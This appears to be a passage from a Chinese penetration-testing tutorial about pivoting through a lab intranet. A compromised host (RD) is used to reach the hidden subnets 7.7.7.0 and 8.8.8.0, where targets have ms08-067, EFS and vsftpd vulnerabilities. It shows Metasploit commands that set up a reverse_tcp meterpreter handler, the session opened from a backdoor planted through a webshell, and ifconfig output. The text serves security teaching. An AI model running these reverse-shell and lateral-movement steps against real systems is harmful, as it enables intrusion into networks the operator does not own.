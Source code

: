 投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**0x00 About**

****

内网机器如下：

[![](./img/85580/t0139af40ff24750844.png)](./img/85580/t0139af40ff24750844.png)

说明:

1)Attacker为攻击者,有一个网卡,网段为172.16.0.0,Attacker系统为kali系统

2)RD为第一个已经渗透的目标,有两块网卡,对应172.16.0.0和7.7.7.0两个网段

3)JC有两块网卡,对应7.7.7.0和8.8.8.0两个网段,JC有ms08-067和efs bof两个漏洞,可getshell

4)SK有一块网卡,对应8.8.8.0网段,SK有vsftpd的漏洞,可getshell

5)起初Attacker只拿到RD的msf的shell,对于目标内网情况一无所知,也不知道存在7.7.7.0和8.8.8.0这两个隐藏的网段

6)目标是准备通过RD来渗透内网中7.7.7.0和8.8.8.0两个隐藏的网段



**0x01 Step1**



Attacker在RD上通过webshell运行了一个reverse类型的后门,然后操作如下:

```
msf &gt; use exploit/multi/handler 
msf exploit(handler) &gt; set payload windows/meterpreter/reverse_tcp
payload =&gt; windows/meterpreter/reverse_tcp
msf exploit(handler) &gt; set LHOST 172.16.0.20 
LHOST =&gt; 172.16.0.20msf exploit(handler) &gt; set LPORT 1234
LPORT =&gt; 1234msf exploit(handler) &gt; run
[*] Started reverse TCP handler on 172.16.0.20:1234 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to 172.16.0.11
[*] Meterpreter session 2 opened (172.16.0.20:1234 -&gt; 172.16.0.11:49162)meterpreter &gt; ifconfig
Interface  1============
Name         : Software Loopback Interface 1Hardware MAC : 00:00:00:00:00:00MTU          : 4294967295IPv4 Address : 127.0.0.1IPv4 Netmask : 255.0.0.0IPv6 Address : ::1IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
Interface 11============
Name         : Intel(R) PRO/1000 MT Desktop Adapter
Hardware MAC : 08:00:27:e1:3f:af
MTU          : 1500IPv4 Address : 172.16.0.11IPv4 Netmask : 255.255.255.0Interface 19============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2Hardware MAC : 08:00:27:7f:3c:fe
MTU          : 1500IPv4 Address : 7.7.7.11IPv4 Netmask : 255.255.255.0
```
